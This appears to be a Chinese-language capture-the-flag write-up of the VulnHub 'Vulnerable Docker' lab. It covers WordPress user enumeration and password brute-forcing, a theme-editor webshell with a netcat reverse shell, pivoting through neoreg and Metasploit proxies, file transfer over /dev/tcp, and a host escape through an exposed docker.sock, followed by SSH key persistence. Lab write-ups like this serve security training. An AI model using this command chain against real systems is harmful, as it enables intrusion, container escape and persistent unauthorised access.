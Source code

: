 # Vulnerable Docker: 1

2024-8-x https://www.vulnhub.com/entry/vulnerable-docker-1,208/

difficulty: begginer-intermediate

## IP

192.168.5.37

## Scan

Open Port -> 22,8000

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 45130881706d46c350ed3cabaed6e185 (DSA)
|   2048 4ce72b0152161d5c6b099d3d4bbb7990 (RSA)
|   256 cc2f62714cea6ca6d8a74feb822a22ba (ECDSA)
|_  256 73bfb4d6ad51e3992629b742e3ffc381 (ED25519)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: NotSoEasy Docker &#8211; Just another WordPress site
|_http-generator: WordPress 4.8.1
```

直接看 8000 的 web 端口，是一个 wordpress 网站，wpscan 进行扫描，找到用户：

```
wpscan --url http://192.168.5.37:8000/ -e u
```

发现用户 bob 尝试对此用户爆破登陆，最终发现密码为 Welcome1 登陆 wp 后台，在 Theme Editor 中写入 webshell，并在 kali 上得到反弹的 shell。

```
nc -lvnp 8888
curl http://192.168.5.37:8000/wp-content/themes/twentyseventeen/404.php
```

登陆 wordpress 后，在首页上发现了第 1 个 flag: http://192.168.5.37:8000/wp-admin/post.php?post=43&action=edit

```
2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998

good job finding this one. Now Lets hunt for the other flags

hint: they are in files.
```

进入系统后，先升级下 tty。经过枚举，发现这是一个 docker 容器。

ip a s 发现了另外的一个网段 172.18.0.3 ，将 nmap 静态文件上传是目标机器对 172.18.0.0 网段进行扫描。发现存活的主机 ip 为 172.18.0.1 至 172.18.0.4

```
172.18.0.1
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  unknown

172.18.0.2
PORT     STATE SERVICE
3306/tcp open  mysql

172.16.0.3
PORT   STATE SERVICE
80/tcp open  http

172.18.0.4
PORT     STATE SERVICE
22/tcp   open  ssh
8022/tcp open  unknown
```

先创建动态端口转发方便后面的信息收集，使用 neoreg，将 tunnel.php 上传至 /var/www/html 文件夹中，在 kali 上启动 tunnel:

```
python3 neoreg.py -k thm -u http://192.168.5.37:8000/tunnel.php
```

然后配置 proxychains 并启动 firefox，访问 http://172.18.0.4:8022/ 就能看到 shell 的执行窗口。或者是用 msf 中的 autoroute 模块和 server_proxy 进行代理创建也可以达到同样的效果。

```
# 先获得一个meterpreter_reverse 的shell
ipconfig
run post/multi/manage/autoroute  或 run autoroute -s 172.18.0.0/16   run autoroute -p 或 route add 172.18.0.0 255.255.0.0 2
bg
route print
use auxiliary/scanner/portscan/tcp  # 进行存活主机IP扫描

# 利用msf的代理暴露给kali代理(kali上会创建一个1080的tcp监听，可以在proxychainis中使用)
use auxiliary/server/socks_proxy
run
```

http://172.18.0.4:8022/ 进入了另外一个 docker 容器，当前容器的用户是 root。发现 /run/docker.sock , 可以利用这个文件把宿主机挂载起来。

先下载 docker 静态文件到这个 docker 容器中，这时才能利用 docker 程序与宿主机进行通信:

kali 上执行：

```
nc -lvnp -q 5 3333 < docker-17.03.0-ce.tgz
```

docker 容器中执行：

```
cat < /dev/tcp/192.168.5.3/3333 > docker-17.03.0-ce.tgz
tar -zxvf docker-17.03.0-ce.tgz
```

同时知道宿主机上有 wordpress 的 image，可以直接进行利用。

```
cd docker
./docker -H unix:///run/docker.sock info

# 查看宿主机上的image
./docker -H unix:///run/docker.sock images

REPOSITORY                 TAG                 IMAGE ID            CREATED             SIZE
wordpress                  latest              c4260b289fc7        6 years ago         406 MB
mysql                      5.7                 c73c7527c03a        7 years ago         412 MB
jeroenpeeters/docker-ssh   latest              7d3ecb48134e        7 years ago         43.2 MB

./docker -H unix:///run/docker.sock run -v /:/mnt --rm -it wordpress chroot /mnt sh
```

得到第 3 个 flag:

```
# cat flag_3
d867a73c70770e73b65e6949dd074285dfdee80a8db333a7528390f6

Awesome so you reached host

Well done

Now the bigger challenge try to understand and fix the bugs.

If you want more attack targets look at the shadow file and try cracking passwords :P

Thanks for playing the challenges we hope you enjoyed all levels

You can send your suggestions bricks bats criticism or appreciations
on vulndocker@notsosecure.com
```

最后生成 id_rsa.pub 公钥，并写到/root/.ssh 文件夹中，这样就可以用 ssh 登陆到目标主机了。

